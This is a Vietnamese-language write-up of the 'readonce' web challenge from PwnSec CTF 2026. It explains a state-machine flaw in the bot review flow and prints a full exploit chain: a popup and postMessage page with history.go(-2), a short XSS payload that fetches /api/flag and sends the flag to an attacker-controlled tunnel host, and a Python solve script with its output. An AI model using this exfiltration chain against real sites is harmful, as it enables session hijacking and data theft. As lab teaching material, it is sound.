




# Write-up Toàn Diện & Dễ Hiểu Nhất: `readonce` — PwnSec CTF 2026

- **Tên thử thách:** `readonce`
- **Thể loại:** Web Exploitation / Race Condition / State Machine Flaw / History Navigation / Cross-Window Messaging (XSS)
- **Độ khó:** Medium / Hard (500 điểm)
- **Tác giả:** `ANAS`
- **Flag thu được:** `pwnsec{e35da1752f9011910ef3945e43a99fae}`

---

# 📑 TỔNG QUAN HÀNH TRÌNH TỪNG BƯỚC

| Bước | Hành động | Mục tiêu & Kết quả | Ảnh chụp màn hình |
| :--- | :--- | :--- | :--- |
| **Bước 1** | Khảo sát ma trận trạng thái & Phát hiện logic lỗi | Phân tích `server.js` tìm mối quan hệ giữa `visited`, `prepared`, `approved`, `used` | `readonce_challenge.png`<br>`step1_readonce_state_machine.png` |
| **Bước 2** | Xây dựng trang HTML Khai thác (`/exploit`) | Sử dụng `window.open('/review')`, `postMessage('approve')` và `history.go(-2)` | `step2_readonce_exploit_html.png` |
| **Bước 3** | Chế tạo Ghi chú (Note) chứa XSS | Tạo Note có độ dài HTML <= 128 chars chứa payload `fetch('/api/flag')` | `step2_readonce_exploit_html.png` |
| **Bước 4** | Thực thi Exploit qua Tunnel & Thu thập Flag | Mở local tunnel HTTP, gửi link cho Bot, nhận cờ về endpoint `/f` | `step3_readonce_terminal.png` |

---



---

## Bước 1: Khảo sát ma trận trạng thái & Phát hiện logic lỗi (State Machine Flaw)

### 1. Phân tích luồng hoạt động chuẩn của Bot tuần tra (`bot/bot.js`)

Khi người dùng gửi một URL bài `readonce` vào form `/report`, Bot Playwright sẽ thực hiện tuần tự các bước sau:

```javascript
// 1. Bot lấy cookie phiên quản trị 'reviewer'
await sessionPage.setExtraHTTPHeaders({ "X-Bot-Token": BOT_TOKEN });
await sessionPage.goto(`${APP_URL}/reports/session`);

// 2. Bot truy cập /reports/check lần đầu
await page.goto(`${APP_URL}/reports/check?rid=${report.id}&state=${report.nonce}`);

// 3. Bot mở /api/flag
await page.goto(`${APP_URL}/api/flag`);

// 4. Bot kích hoạt trạng thái prepared
await fetch(`${APP_URL}/reports/arm/${report.id}`, { method: "POST", headers: { "X-Bot-Token": BOT_TOKEN } });

// 5. Bot chuyển hướng sang URL của người chơi cung cấp
await page.goto(playerUrl);
```

### 2. Phân tích ma trận kiểm tra trong `server.js`

Hãy xem logic hiển thị file ghi chú của người chơi tại đường dẫn `/reports/check`:

```javascript
app.get("/reports/check", (req, res) => {
  if (currentReview.visited) {
    const note = notes.get(currentReview.noteId);

    // KIỂM TRA ĐIỀU KIỆN ĐỂ RENDER HTML CỦA NOTE:
    if (!policy(req) || !consumeReport(req)) {
      res.status(403).type("text/plain").send("forbidden");
      return;
    }

    res.render("review-document", { note }); // <--- NƠI RENDER XSS!
    return;
  }

  currentReview.visited = true; // Đánh dấu đã truy cập lần 1
  res.type("html").send("<!doctype html><title>Reviewer</title><p>Opening document.</p>");
});
```

Hàm `consumeReport(req)` quy định:
```javascript
function consumeReport(req) {
  if (
    !currentReview
    || currentReview.id !== id
    || state !== currentReview.nonce
    || !currentReview.prepared   // Cần bot arm
    || !currentReview.approved   // Cần POST /complete
    || currentReview.used        // Chưa từng được sử dụng
  ) {
    return false;
  }

  currentReview.used = true;
  return true;
}
```



> [!IMPORTANT]
> **Điểm mấu chốt (State Machine Flaw):**
> 1. Ban đầu `approved = false`. Chỉ khi người xem mở trang `/review` và cửa sổ iframe nạp xong `/sandbox?rid=...&end`, sự kiện `message` được kích hoạt sẽ gửi request `POST /complete` để bật `approved = true`.
> 2. Nếu ta chuyển hướng Bot quay trở lại `/reports/check` **sau khi `approved = true`**, server thấy `visited = true`, `prepared = true`, `approved = true`, và `used = false` $\rightarrow$ Server sẽ **RENDER TOÀN BỘ NỘI DUNG HTML CỦA NOTE KHÔNG QUA SANITIZATION (`review-document.ejs`)!**
> 3. Lúc này, mã JavaScript trong Note sẽ thực thi trực tiếp trên origin của ứng dụng với tư cách phiên quản trị của Bot!

---

## Bước 2: Xây dựng trang HTML Khai thác (`/exploit`)

Ta thiết kế một trang HTML host trên server của ta (`/exploit`), khi Bot ghé thăm:

```html
<!DOCTYPE html>
<html>
<body>
<h1>Processing review...</h1>
<script>
const params = new URLSearchParams(location.search);
const rid = params.get('rid');
const targetOrigin = "https://12ac6d1fa0af1811.chal.ctf.ae";
const u = location.origin + "/empty.js";
const reviewUrl = `${targetOrigin}/review?rid=${encodeURIComponent(rid)}&u=${encodeURIComponent(u)}`;

// 1. Mở cửa sổ popup /review
const w = window.open(reviewUrl);

// 2. Gửi postMessage('approve') liên tục để kích hoạt POST /complete
const timer = setInterval(() => {
  if (w) {
    try {
      w.postMessage("approve", "*");
    } catch(e) {}
  }
}, 100);

// 3. Sau 2.5 giây (đủ thời gian /complete xử lý), quay lại lịch sử trình duyệt 2 bước
setTimeout(() => {
  clearInterval(timer);
  history.go(-2); // Direct navigation quay về /reports/check!
}, 2500);
</script>
</body>
</html>
```



### Tại sao dùng `history.go(-2)`?
1. Lịch sử duyệt web của tab Bot:
   - Page 1: `https://12ac6d1fa0af1811.chal.ctf.ae/reports/check?...`
   - Page 2: `https://12ac6d1fa0af1811.chal.ctf.ae/api/flag`
   - Page 3: `https://your-tunnel.lhr.life/exploit?note=...` (Trang hiện tại)
2. Khi gọi `history.go(-2)`, tab chính của Bot lùi lại đúng 2 bước về lại Page 1 (`/reports/check`).
3. Request này là Navigation trực tiếp từ trình duyệt, nên thỏa mãn header `Sec-Fetch-Site: none` và `Sec-Fetch-Dest: document` (`policy(req)`).

---

## Bước 3: Chế tạo Ghi chú (Note) chứa XSS trích xuất Flag

Hàm `POST /create` giới hạn độ dài của `html` tối đa 128 ký tự:
```javascript
const html = String(req.body.html || "").slice(0, 128);
```

Ta viết payload XSS tối ưu siêu ngắn (109 - 118 ký tự):
```html
<script>fetch('/api/flag').then(r=>r.json()).then(d=>location='//<YOUR_TUNNEL>/f?'+d.flag)</script>
```

Khi `/reports/check` render Note, mã script lập tức gửi request `GET /api/flag` (vì Bot đang có phiên `session.admin = true`), lấy JSON `{ "flag": "pwnsec{...}" }` rồi chuyển hướng trình duyệt (location) đẩy Flag về HTTP Server của ta!

---

## Bước 4: Viết Script khai thác tự động & Thu thập Flag

Kịch bản khai thác được viết trong file `scripts_dev/solve_readonce.py`:

```python
import http.server
import socketserver
import subprocess
import threading
import requests
import urllib.parse
import time
import re

CHALL_URL = "https://12ac6d1fa0af1811.chal.ctf.ae"
PORT = 8000
tunnel_domain = None
tunnel_url = None
flag_captured = None
done_event = threading.Event()

# 1. Local HTTP Server đón nhận Flag
class ExploitHandler(http.server.BaseHTTPRequestHandler):
    def do_GET(self):
        global flag_captured
        parsed = urllib.parse.urlparse(self.path)
        qs = urllib.parse.parse_qs(parsed.query)

        if parsed.path == "/exploit":
            self.send_response(200)
            self.send_header("Content-Type", "text/html")
            self.end_headers()
            # Render HTML Exploit
            ...
            return

        if parsed.path in ["/flag", "/f"]:
            flag = qs.get("f", [None])[0] or parsed.query
            print(f"\n[+] HIT ON FLAG ENDPOINT: {flag}\n")
            if flag and "pwnsec{" in flag:
                flag_captured = flag
                done_event.set()
            self.send_response(200)
            self.end_headers()
            self.wfile.write(b"OK\n")

# 2. Thiết lập SSH Tunnel công khai qua localhost.run
def start_tunnel():
    ...
```



Chạy script trên Terminal:
```bash
python scripts_dev/solve_readonce.py
```

**Kết quả thu được:**
```text
[*] Local HTTP server listening on port 8000
[*] Starting ssh tunnel to localhost.run...
[+] TUNNEL ESTABLISHED: https://a9b8eb6a7c49cd.lhr.life
[*] Note HTML payload (len=118): <script>fetch('/api/flag').then(r=>r.json()).then(d=>location='//a9b8eb6a7c49cd.lhr.life/f?f='+d.flag)</script>
[*] Create note response status: 302
[+] Created Note ID: 5a36bcff6696b0147eb6
[*] Submitting report URL to bot: https://a9b8eb6a7c49cd.lhr.life/exploit?note=5a36bcff6696b0147eb6
[HTTP] GET /exploit
[HTTP] GET /empty.js

============================================================
[+] HIT ON FLAG ENDPOINT: pwnsec{e35da1752f9011910ef3945e43a99fae}
============================================================

[SUCCESS] FLAG: pwnsec{e35da1752f9011910ef3945e43a99fae}
```

---

# 🏁 KẾT LUẬN & BÀI HỌC BẢO MẬT

### 1. Cờ chính thức
```text
pwnsec{e35da1752f9011910ef3945e43a99fae}
```

### 2. Tổng kết các điểm mấu chốt (Key Takeaways)
1. **Rủi ro từ Logic Quản lý Trạng thái (State Machine Flaws):**
   Các cờ trạng thái như `visited`, `prepared`, `approved`, `used` nếu không được đồng bộ chặt chẽ theo thứ tự bất biến (atomic transaction) có thể bị lợi dụng bằng việc duyệt lại lịch sử trình duyệt (`history.go(-2)`).
2. **Khai thác Cross-Window Navigation:**
   Trình duyệt cho phép cửa sổ con/popup thao túng trạng thái của cửa sổ cha qua `postMessage()` và `history.go()`, bỏ qua một số ràng buộc navigation thông thường.
